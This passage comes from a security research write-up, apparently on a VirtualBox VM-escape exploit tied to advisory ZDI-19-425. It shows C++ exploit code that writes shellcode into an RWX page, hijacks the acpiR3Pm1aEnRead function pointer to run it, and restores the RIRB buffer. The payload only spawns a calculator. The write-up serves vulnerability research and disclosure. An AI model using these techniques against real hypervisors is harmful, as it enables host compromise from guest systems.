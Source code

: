 Then we use arbitrary write primitive to write our shellcode to this buffer:

~~~c++
if (!arbitrary_write(RWX_page_addr, shellcode_physic))
{
    DbgPrint("[-] WRITE SHELLCODE FAILED: [0x%llx]\n", RWX_page_addr);
    return false;
}
~~~

Because when we use the arbitrary read primitive, we have overwritten the RIRB buffer **pu64RirbBuf** , so after the execution, we should replace the buffer with a valid heap chunk so the virtual machine can continue to use the audio features. Our shellcode will spawn a calculator process and return a newly allocated heap chunk to replace the overwritten RIRB.

The remaining work is quite simple, find a function pointer in those device object and replace with the RWX buffer. To do this, I choose to overwrite the **acpiR3Pm1aEnRead** function pointer with the RWX page, then use the **IN** instruction to trigger the function call, use the return value to replace the overwritten RIRB. The virtual machine can run normally from now.

~~~c++
eeprom_relative_write_qword(eeprom_offset_acpiR3Pm1aEnRead, RWX_page_addr);                 // REPLACE acpiR3Pm1aEnRead() FUNCTION POINTER BY SHELLCODE ADDRESS
uint64_t allocated_buff = ASMInU32(0x4002);                                                 // CALL acpiR3Pm1aEnRead(), SHELLCODE WILL SPAWN A CALCULATOR AND ALLOC A VALID HEAP CHUNK TO REPLACE RIRB                            
DbgPrint("[+] BUFF ALLOCATED BY SHELLCODE: 0x%llx\n", allocated_buff);
eeprom_relative_write_qword(eeprom_offset_acpiR3Pm1aEnRead, acpiR3Pm1aEnRead_funcptr);      // RESTORE acpiR3Pm1aEnRead() FUNCTION POINTER
eeprom_relative_write_qword(eeprom_offset_pu64RirbBuf, allocated_buff);                     // RESTORE RIRB WITH THE ALLOCATED BUFF
~~~

#### Advisory

- <https://www.zerodayinitiative.com/advisories/ZDI-19-425/>